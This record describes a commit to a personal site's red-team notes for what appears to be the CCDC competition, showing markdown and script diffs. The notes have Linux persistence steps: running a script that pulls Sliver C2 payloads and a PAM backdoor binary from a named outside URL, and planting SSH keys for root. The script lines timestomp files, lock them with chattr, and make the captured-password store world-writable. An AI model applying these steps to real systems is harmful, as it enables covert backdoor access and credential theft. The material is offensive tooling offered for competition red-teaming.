

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 1199 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -52,8 +52,9 @@
 
 **Linux:**
 - Run [linux_persistence.sh {ip}:{port} {sliver_payload_file} {pam_so_file}](https://khaelkugler.com/scripts/linux_persistence.sh.txt) while hosting the payload
-  - Make sure to point the script to the correct location to pull the files from
-    - Also make sure that
+  - Make sure to point the script to the correct location to pull both files from
+    - Make sure to generate sliver payloads beforehand
+    - [PAM backdoor binary](https://khaelkugler.com/scripts/pam_login.so) can be downloaded from `https://khaelkugler.com/scripts/pam_login.so`
 - Add SSH keys
   - `mkdir /root/.ssh` and add key to `/root/.ssh/authorized_keys`
 - Modify `/etc/passwd` and `/etc/ssh/sshd_config`
--- a/scripts/linux_persistence.sh.txt
+++ b/scripts/linux_persistence.sh.txt
@@ -42,8 +42,8 @@
 touch -d "Mar 15 2018" "/etc/pam.d/"
 chattr +i "$PAM_SO_PATH"
 
-
 touch -d "Aug 2 2014" "$PAM_PASSWORD_STORE"
+chmod 777 "$PAM_PASSWORD_STORE"
 chattr +i "$PAM_PASSWORD_STORE"
 
 # Write SSH key to /root/.ssh/authorized_keys
```
